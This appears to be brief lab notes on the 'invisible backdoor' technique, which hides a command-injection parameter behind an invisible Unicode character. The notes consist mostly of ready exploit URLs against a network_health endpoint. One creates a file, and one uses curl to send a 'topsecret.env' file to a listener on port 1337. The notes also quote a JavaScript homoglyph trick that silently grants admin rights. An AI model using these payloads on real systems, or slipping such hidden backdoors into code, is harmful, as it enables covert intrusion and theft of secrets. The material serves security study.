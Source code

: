 https://certitude.consulting/blog/en/invisible-backdoor/


http://172.28.150.242:8080/network_health?%E3%85%A4=touch%20/tmp/umut.txt


## leaking the file content

curl --data "@topsecret.env" http://127.0.0.1:1337/

http://172.28.150.242:8080/network_health?%E3%85%A4=curl%20--data%20%22@topsecret.env%22%20http://127.0.0.1:1337/



```

const [ ENV_PROD, ENV_DEV ] = [ 'PRODUCTION', 'DEVELOPMENT'];
/* … */
const environment = 'PRODUCTION';
/* … */

function isUserAdmin(user) {
    if(environmentǃ=ENV_PROD){
        // bypass authZ checks in DEV
        return true;
    }
    return false;
}
```